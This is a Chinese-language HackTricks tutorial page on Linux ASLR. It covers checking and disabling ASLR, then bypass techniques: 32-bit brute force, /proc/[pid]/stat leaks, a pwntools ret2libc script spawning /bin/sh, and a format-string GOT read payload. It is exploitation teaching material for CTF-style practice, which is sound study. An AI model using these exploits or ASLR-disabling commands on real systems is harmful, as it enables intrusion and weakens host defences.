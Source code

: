 # ASLR

{{#include ../../../../banners/hacktricks-training.md}}

## 基本信息

**地址空间布局随机化 (ASLR)** 是一种在操作系统中使用的安全技术，用于 **随机化系统和应用程序进程使用的内存地址**。通过这样做，它使攻击者预测特定进程和数据（如堆栈、堆和库）的位置变得更加困难，从而减轻某些类型的攻击，特别是缓冲区溢出。

### **检查 ASLR 状态**

要 **检查** Linux 系统上的 ASLR 状态，可以从 `/proc/sys/kernel/randomize_va_space` 文件中读取值。存储在此文件中的值决定了应用的 ASLR 类型：

- **0**：没有随机化。一切都是静态的。
- **1**：保守随机化。共享库、堆栈、mmap()、VDSO 页面被随机化。
- **2**：完全随机化。除了保守随机化随机化的元素外，通过 `brk()` 管理的内存也被随机化。

您可以使用以下命令检查 ASLR 状态：
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **禁用 ASLR**

要 **禁用** ASLR，您需要将 `/proc/sys/kernel/randomize_va_space` 的值设置为 **0**。在测试或调试场景之外，通常不建议禁用 ASLR。以下是禁用它的方法：
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
您还可以通过以下方式禁用 ASLR 以进行执行：
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **启用 ASLR**

要**启用** ASLR，您可以将值 **2** 写入 `/proc/sys/kernel/randomize_va_space` 文件。这通常需要 root 权限。可以使用以下命令启用完全随机化：
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **重启后的持久性**

使用 `echo` 命令所做的更改是临时的，并将在重启时重置。要使更改持久化，您需要编辑 `/etc/sysctl.conf` 文件并添加或修改以下行：
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
在编辑 `/etc/sysctl.conf` 后，使用以下命令应用更改：
```bash
sudo sysctl -p
```
这将确保您的 ASLR 设置在重启后保持不变。

## **绕过**

### 32位暴力破解

PaX 将进程地址空间分为 **3 组**：

- **代码和数据**（已初始化和未初始化）：`.text`、`.data` 和 `.bss` —> `delta_exec` 变量中的 **16 位** 熵。该变量在每个进程中随机初始化，并添加到初始地址中。
- **通过 `mmap()` 分配的内存** 和 **共享库** —> **16 位**，称为 `delta_mmap`。
- **栈** —> **24 位**，称为 `delta_stack`。然而，它实际上使用 **11 位**（从第 10 字节到第 20 字节，包括），对齐到 **16 字节** —> 这导致 **524,288 个可能的真实栈地址**。

上述数据适用于 32 位系统，减少的最终熵使得通过一次又一次重试执行来绕过 ASLR 成为可能，直到漏洞成功完成。

#### 暴力破解思路：

- 如果您有足够大的溢出以容纳 **大 NOP 滑梯在 shellcode 之前**，您可以在栈中暴力破解地址，直到流程 **跳过 NOP 滑梯的某部分**。
- 如果溢出不那么大，并且漏洞可以在本地运行，另一种选择是 **在环境变量中添加 NOP 滑梯和 shellcode**。
- 如果漏洞是本地的，您可以尝试暴力破解 libc 的基地址（对 32 位系统有用）：
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- 如果攻击一个远程服务器，你可以尝试**暴力破解 `libc` 函数 `usleep` 的地址**，传递参数 10（例如）。如果在某个时刻**服务器响应多了 10 秒**，你就找到了这个函数的地址。

> [!TIP]
> 在 64 位系统中，熵要高得多，这样是不可能的。

### 本地信息 (`/proc/[pid]/stat`)

进程的**`/proc/[pid]/stat`**文件始终对所有人可读，并且**包含有趣的**信息，例如：

- **startcode** & **endcode**：二进制文件的**TEXT**上下的地址
- **startstack**：**栈**的起始地址
- **start_data** & **end_data**：**BSS**上下的地址
- **kstkesp** & **kstkeip**：当前的**ESP**和**EIP**地址
- **arg_start** & **arg_end**：**cli 参数**上下的地址
- **env_start** & **env_end**：**env 变量**上下的地址

因此，如果攻击者与被利用的二进制文件在同一台计算机上，并且该二进制文件不期望来自原始参数的溢出，而是来自读取此文件后可以构造的不同**输入**。攻击者可以**从此文件中获取一些地址并从中构造偏移量以进行利用**。

> [!TIP]
> 有关此文件的更多信息，请查看 [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html)，搜索 `/proc/pid/stat`

### 拥有一个泄漏

- **挑战是给出一个泄漏**

如果你得到了一个泄漏（简单的 CTF 挑战），你可以从中计算偏移量（假设例如你知道你正在利用的系统中使用的确切 libc 版本）。这个示例利用提取自 [**这里的示例**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak)（查看该页面以获取更多详细信息）：
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
- **ret2plt**

通过利用缓冲区溢出，可以利用 **ret2plt** 来提取 libc 中一个函数的地址。检查：

{{#ref}}
ret2plt.md
{{#endref}}

- **格式字符串任意读取**

就像在 ret2plt 中一样，如果通过格式字符串漏洞有任意读取的能力，可以从 GOT 中提取 **libc 函数** 的地址。以下 [**示例来自这里**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got)：
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
您可以在以下位置找到有关格式字符串任意读取的更多信息：

{{#ref}}
../../format-strings/
{{#endref}}

### Ret2ret & Ret2pop

尝试通过滥用栈内的地址来绕过 ASLR：

{{#ref}}
../../stack-overflow/ret2ret.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
